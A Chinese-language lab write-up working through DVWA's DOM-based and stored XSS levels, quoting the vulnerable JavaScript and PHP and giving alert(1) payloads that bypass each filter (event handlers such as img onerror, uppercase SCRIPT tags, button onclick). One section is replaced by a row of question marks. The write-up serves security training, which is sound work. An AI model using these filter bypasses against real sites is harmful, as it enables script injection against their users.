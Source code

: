 # §10 DOM型XSS

## §10.1 Low

分析前端JavaScript：

```javascript
if (document.location.href.indexOf("default=") >= 0) {
	var lang = document.location.href.substring(document.location.href.indexOf("default=")+8);
	document.write("<option value='" + lang + "'>" + decodeURI(lang) + "</option>");
	document.write("<option value='' disabled='disabled'>----</option>");
}
    
document.write("<option value='English'>English</option>");
document.write("<option value='French'>French</option>");
document.write("<option value='Spanish'>Spanish</option>");
document.write("<option value='German'>German</option>");
```

容易发现，菜单中的第一项正是上次提交的值，而且这个值只由`url`中的`default`参数决定。马上尝试绕过`><`。

```
访问URL:
	http://localhost/DVWA/vulnerabilities/xss_d/?default=
		><script>alert(1)</script><option
```

## §10.2 Medium

后端PHP多了过滤逻辑，如果检测到`$_GET['default']`包含`<script`时（不区分大小写），就将其强行设为`English`：

```php
if ( array_key_exists( "default", $_GET ) && !is_null ($_GET[ 'default' ]) ) {
    $default = $_GET['default'];
    if (stripos ($default, "<script") !== false) {
        header ("location: ?default=English");
        exit;
    }
}
```

我们可以通过JavaScript事件绕过：

```
访问URL:
<option value=' lang '> decodeURI(lang)  </option>
	http://localhost/DVWA/vulnerabilities/xss_d/?default=
		<img src=# onerror=alert("1")>
		
```

？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？

# §12 存储型XSS

## §12.1 Low

```php
$message = trim( $_POST[ 'mtxMessage' ] );
$name    = trim( $_POST[ 'txtName' ] );
```

分析源码可知这个POST请求中的`Name`和`Message`均为注入点。其中前端限制了`Name`字段的`<input maxLength="10">`，开审查元素删了就行。

```
?mtxMessage=<script>alert(1);</script>
	&txtName=<script>alert(1);</script>
```

## §12.2 Medium

```php
$message = trim( $_POST[ 'mtxMessage' ] );
$name    = trim( $_POST[ 'txtName' ] );
$message = htmlspecialchars( $message );
$name = str_replace( '<script>', '', $name );
```

`$message`被`htmlspecialchars()`处理后，所有的特殊字符都变成了实体的形式，因此不再是注入点，问题的重点转移到了怎么绕过`$name`的这个`str_replace()`。

> 注意：HTML的标签名不区分大小写，这意味着`<script>`和`<ScRiPt>`是完全等价的，首标签和闭标签完全可以混用。

既然HTML标签名对大小写不敏感，我们就可以使用全大写的标签名绕过WAF：

```
?mtxMessage=HelloWorld
	&txtName=<SCRIPT>alert(1);</SCRIPT>
```

## §12.3 Hign

```php
$name = trim( $_POST[ 'txtName' ] );
$name = preg_replace( '/<(.*)s(.*)c(.*)r(.*)i(.*)p(.*)t/i', '', $name );
```

现在`preg_replace()`不允许出现`<script`，且忽略大小写。这就堵死了注入`<script>`标签这条路。然而HTML中能执行JavaScript的不止`<script>`，还有各标签的JavaScript事件。

```
?txtName=<button onclick="alert(1)"/>
?txtName=<img src=# onerror=alert("1")>
```

